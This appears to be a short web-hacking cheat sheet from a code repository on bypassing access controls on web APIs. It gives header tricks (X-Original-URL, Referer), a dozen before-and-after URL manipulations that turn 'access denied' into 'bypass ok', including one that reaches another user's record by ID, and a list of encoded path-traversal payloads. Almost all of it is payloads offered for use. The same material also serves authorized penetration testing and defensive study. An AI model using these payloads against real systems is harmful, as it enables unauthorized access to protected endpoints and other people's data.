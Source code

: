 # Web-Hacking #
## Topics 

#### Tricks
<b>If you want do bypass endpoint always try to use own methodology.</b>

<b>Example</b>:

Http Header based bypass:

<b>1.</b> X-Original-URL: /redact

<b>Example:</b><br/>
 
GET /api/getUser HTTP/1.1 → 403
Host: redact.com

GET / HTTP/1.1
Host: redact.com
X-Original-URL: /api/getUser → 200 OK

<b>2.</b> Referer: https://site.com/api/redact

Example:<br/>
  

GET /api/getUser HTTP/1.1 → acess denied
Host: redact.com

  
  
GET / HTTP/1.1
Host: redact.com
Referer: https://site.com/api/getUser → 200 OK
 
  or
  
GET / HTTP/1.1
Host: redact.com
Referer: https://site.com/api/getUser → 200 ok

More examples:

<b>3</b>. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid.json → bypass ok

<b>4</b>. https://site.com/api/v1/redactid → acess denied
https://site.com/api/v1/users/redactid: → bypass ok

<b>5</b>. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid..;/ → bypass ok

<b>6</b>. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid\..\.\getUser → bypass ok

<b>7</b>. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid/ → bypass ok

<b>8</b>. https://site.com/api/v1/users/redactid → acess denied
https://site.com/api/v1/users/redactid?? → bypass ok

<b>9</b>. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v2/users/redactid → bypass ok
            or
https://site.com/api/v3/users/redactid → bypass ok

<b>10</b>. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid&accountdetails → bypass ok

<b>11</b>. https://site.com/api/v1/users/victim?id=BAEILsaqQhk → acess denied
https://site.com/api/v1/users/your?id=UAEILsdUf50&victim?id=BAEILsaqQhk → bypass ok

<b>12</b>. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid/email → bypass ok

Payload for basic test:
<ul>
 <b>
? <br/>
?? <br/>
& <br/>
'#' <br/>
% <br/>
%20 <br/>
%09 <br/>
/ <br/>
/..;/ <br/>
../ <br/>
..$2f <br/>
..;/ <br/>
../ <br/>
\..\.\ <br/>
.././ <br/>
..%00/ <br/>
.%0d/ <br/>
..%5c <br/>
..\ <br/>
..%ff/ <br/>
%2e%2e%2f <br/>
.%2e/ <br/>
%3f <br/>
%26 <br/>
%23 <br/>
.json <br/>
 </b>
</ul>
HTTP Header based bypass:

1. X-Original-URL: /redact
2. Referer: https://site.com/api/redact



